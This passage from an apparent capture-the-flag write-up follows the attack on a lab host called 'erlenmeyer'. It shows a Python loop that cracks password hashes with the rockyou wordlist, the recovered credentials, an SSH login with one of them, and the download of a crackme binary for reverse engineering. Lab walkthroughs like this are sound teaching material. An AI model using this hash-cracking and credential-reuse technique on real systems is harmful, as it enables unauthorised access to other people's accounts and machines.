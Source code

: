 ```
    
        with open("/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt", "r", errors="ignore") as file:  
            for line in file:
                password = line.strip()
                if check_password_hash(hash, password):
                    log.success(f"Credencial valida: {user}:{password}")
```    

  

We got `5` valid `passwords` and cracked several `hashes` by executing the `exploit.py`
```
    ❯ python3 exploit.py
    [+] Credencial valida: pasta:antihacker
    [+] Credencial valida: pepe:sarmiento
    [+] Credencial valida: administrator:ihatepasta  
    [+] Credencial valida: octo:octopass
    [+] Credencial valida: test:test
 ```   

  
##### Getting shell (Initial accesss)

The `pasta` ones seem to be valid for `ssh`, we get a shell on the real machine
```
    ❯ ssh pasta@10.13.37.14
    pasta@10.13.37.14's password: antihacker
    pasta@erlenmeyer:~$ id
    uid=1001(pasta) gid=1001(pasta) groups=1001(pasta)
    pasta@erlenmeyer:~$ hostname -I  
    10.13.37.14 172.17.0.1 172.22.0.1
    pasta@erlenmeyer:~$
 ```   

  

We haven't found the `flag` yet, but we do see a build named `crackme`, which might be worth analyzing for potential vulnerabilities or hidden data.
```
    pasta@erlenmeyer:~$ ls  
    crackme
    pasta@erlenmeyer:~$
```    

  

We pull the crackme binary using scp over our SSH connection. Running it prompts us to enter the flag, but if we feed it anything random, it just shuts down—no hints, no mercy.
```
    ❯ sshpass -p antihacker scp pasta@10.13.37.14:crackme .  
    
    ❯ ./crackme
    Insert flag: test
 ```   

  
We open it and decompile it using `ida` where we can see some functions including the base, `main` which on the right we find all the code in `C`
